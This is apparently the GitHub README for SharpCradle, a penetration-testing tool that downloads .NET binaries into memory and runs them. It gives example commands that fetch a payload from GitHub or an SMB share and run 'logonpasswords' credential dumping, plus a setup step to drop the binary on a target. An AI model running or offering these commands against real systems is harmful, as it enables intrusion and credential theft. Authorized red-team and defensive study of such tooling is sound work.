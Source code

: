 # SharpCradle

Description
============

SharpCradle is a tool designed to help penetration testers or red teams download and execute .NET binaries into memory.

Contact at:
- Twitter: @anthemtotheego or @g0ldengunsec

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpSploitConsole")
![Alt text](/SCradle2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpCradle tool and open up SharpCradle.sln                         

2. Compile, drop binary on target computer and have fun.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://github.com/anthemtotheego/SharpSploitConsole/blob/master/CompiledBinaries/SharpSploitConsole_x64.exe?raw=true logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```
